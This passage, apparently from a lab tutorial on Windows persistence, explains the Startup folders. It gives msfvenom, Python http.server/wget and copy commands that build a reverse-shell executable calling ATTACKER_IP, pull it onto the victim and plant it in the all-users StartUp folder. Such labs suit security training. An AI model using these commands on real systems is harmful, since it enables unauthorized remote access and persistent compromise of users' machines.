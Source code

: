 `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where you can put executables to be run whenever the user logs in. An  attacker can achieve persistence just by dropping a payload in there.  Notice that each user will only run whatever is available in their  folder.

If we want to force all users to run a payload while logging in, we can use the folder under `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` in the same way.

For this task, let's generate a reverse shell payload using msfvenom:

- **AttackBox**        

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
        
```

We will then copy our payload into the victim machine. You can spawn an `http.server` with Python3 and use wget on the victim machine to pull your file:

| AttackBox                `user@AttackBox$ python3 -m http.server  Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...         ` | ➜    | Powershell                `PS C:\> wget http://ATTACKER_IP:8000/revshell.exe -O revshell.exe        ` |
| ------------------------------------------------------------ | ---- | ------------------------------------------------------------ |
|                                                              |      |                                                              |

We then store the payload into the `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` folder to get a shell back for any user logging into the machine.

- **Command Prompt**        

```shell-session
C:\> copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
        
```

Now be sure to sign out of your session from the start menu (closing the RDP window is not enough as it leaves your session open):
